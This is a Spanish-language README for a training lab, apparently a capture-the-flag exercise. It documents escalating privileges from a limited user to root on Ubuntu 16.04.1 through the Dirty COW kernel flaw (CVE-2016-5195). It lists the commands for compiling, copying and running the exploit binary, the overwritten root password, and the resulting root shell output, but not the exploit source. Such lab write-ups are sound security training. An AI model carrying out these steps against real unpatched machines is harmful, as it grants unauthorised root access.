 # dirtycow-lab
Explotación vulnerabilidad Dirty COW (CVE-2016-5195) en Ubuntu 16.04.1.

cat > README.md <<'EOF'
# 🐮 Dirty COW Exploit (CVE-2016-5195)

## 📌 Descripción
Este laboratorio demuestra la explotación de la vulnerabilidad **Dirty COW** en un sistema **Ubuntu Server 16.04.1** con kernel vulnerable.  
El objetivo fue **escalar privilegios** desde un usuario limitado (`student`) hasta `root` y capturar la flag ubicada en `/root/flag.txt`.

## 🛠️ Proceso realizado
1. **Verificación del kernel**: `Linux 4.4.0-31-generic` (vulnerable).
2. **Compilación del exploit**: en Kali dentro de Docker `ubuntu:16.04` se compiló `dirtycow_passwd.c` → binario `dirty`.
3. **Transferencia**: `scp dirty student@<IP>:~/`.
4. **Ejecución y escalada**: `chmod +x ~/dirty && ~/dirty` → `su root` (pass `dirtyCowFun`).
5. **Flag**: `cat /root/flag.txt` → `4GEEKS{Y0u_G0t_R00t}`.

## ✅ Resultado
```bash
root@ubuntu:/home/student# whoami
root
root@ubuntu:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/student# cat /root/flag.txt
4GEEKS{Y0u_G0t_R00t}

![Flag obtenida](evidencias/dirtycow.png)
